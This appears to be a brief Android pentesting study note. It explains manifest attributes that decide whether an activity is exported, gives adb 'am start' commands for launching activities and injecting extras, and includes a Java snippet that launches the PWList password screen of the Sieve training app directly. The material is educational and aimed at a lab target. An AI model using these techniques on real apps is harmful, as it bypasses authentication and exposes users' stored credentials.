 1. [Analyse](#analyse)
2. [Activity Hacking](#Activity-Hacking)

## Analyze

**android:compileSdkVersionCodename** >>  Define the android version.<br>

**android:compileSdkVersion** >> Define the android api version.<br>

**package** >> Unique Idenfier of an apk.<br>

<**uses-permission**> >> Requests permission to access other apps data.<br>

<**permission**> >> Define a custom permission to give access of resources to other apps. (Exploit Vector)<br>

<**queries**> >> Exchange data between other applications.

**exported="true"** or <**intent-filter**>...<**intent-filter**/> >> This things are activity.

**android:exported** missing but intent filter present	✅ Exported (automatically)
<br>
**android:exported** missing and no intent filter		🚫 Not exported

**android:scheme** >> Defines deeplink, weblink and applink.

## Activity Hacking

**With ADB**

	am start -n <package-name/.activity-name> >> To start a specific activity of an app/package.
	
	am start -a <action-name> -c <catagory-name> >> To start a intent activity with action and catagory name.
	
	am start -a <action-name> -c <catagory-name> --es "username" "admin" >> To provide data to the activity.


**MainActivity.java**


```java
package com.example.myapplication;

import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {

        // 🔹 Launch malicious Activity explicitly
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(
                "com.mwr.example.sieve",        // target package
                "com.mwr.example.sieve.PWList"  // target activity
        ));
        startActivity(intent);
    }
}
```

